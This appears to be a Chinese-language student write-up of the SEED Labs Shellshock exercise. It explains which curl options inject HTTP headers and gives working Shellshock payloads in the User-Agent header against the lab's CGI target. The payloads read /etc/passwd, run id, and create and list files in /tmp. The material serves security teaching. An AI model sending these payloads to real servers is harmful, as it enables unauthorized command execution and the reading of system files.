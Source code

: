基于此实验，请描述哪些curl选项可以用来将数据注入到目标CGI程序的环境变量中。

- -A：设置用户代理（User-Agent）；
- -e：设置 HTTP 的Referer，防盗链；
- -H：添加任意的 HTTP 请求头。

## 任务3：启动Shellshock攻击

我们现在可以发动Shellshock攻击。攻击并不依赖于CGI程序中的内容，因为它的目标是bash程序，该程序  在执行实际的CGI脚本之前被调用。您的工作是通过URL http://www.seedlab-shellshock.com/cgi-bin/vul.cgi，所以您可以让服务器运行一个任意的命令。

如果您的命令有一个纯文本输出，并且您希望该输出返回给您，那么您的输出需要遵循一个协议：它应该从内容开始  Content type: text/plain，后面是一个空行，然后您可以放置纯文本输出。例如，如果您希望服务器返回其文件夹中的文件列表，则您的命令如下所示：

```bash
echo Content_type: text/plain; echo; /bin/ls -l
```

在此任务中，请使用三种不同的方法(即，三个不同的HTTP报头字段)来启动对目标CGI程序的Shellshock攻击。您需要实现以下目标。对于每个目标，您只需要使用一种方法，但是总共需要使用三种不同的方法。

- 任务3.A: 让服务器重新发送/etc/passwd文件的内容。

```bash
curl -A "() { : ;}; echo ; /bin/cat /etc/passwd" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

![image-20220614212852153](Shellshock/image-20220614212852153.png)

- 任务3.B：让服务器告诉您其进程的用户ID。您可以使用/bin/id命令来打印出ID信息。

```bash
curl -A "() { : ;}; echo ; /bin/id " http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

![image-20220614213157398](Shellshock/image-20220614213157398.png)

- 任务3.C：让服务器在/tmp文件夹中创建一个文件。您需要进入容器以查看文件是否被创建，或者使用另一个shellshoc攻击来列出/tmp文件夹。

```bash
curl -A "() { : ;}; echo ; /bin/touch /tmp/skpriminfile " http://www.seedlab-shellshock.com/cgi-bin/vul.cgi

curl -A "() { :;}; echo Content_type: text/plain; echo; /bin/ls -l /tmp" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```
